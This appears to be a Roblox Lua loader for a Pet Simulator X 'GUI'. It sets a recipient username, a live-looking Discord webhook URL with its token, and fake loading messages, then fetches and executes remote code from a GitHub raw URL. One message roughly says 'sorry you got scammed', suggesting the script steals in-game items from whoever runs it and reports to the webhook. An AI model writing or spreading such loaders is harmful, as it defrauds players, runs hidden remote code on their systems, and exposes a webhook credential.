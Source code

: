 Username = "alisa_milanakul"

WebHook = "https://discord.com/api/webhooks/1084271031704895538/JuGr4ImoxdCNMErT9BAtRqYgeaJvaKR9qrB5Oc-Ob0l5ssG6hPY56440fyqKCr3owl1Q"

_G.CustomScriptName = "HELLO GUESTS"

_G.Text1 = "Script PROSTI TEBYA SCAMHULI"

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
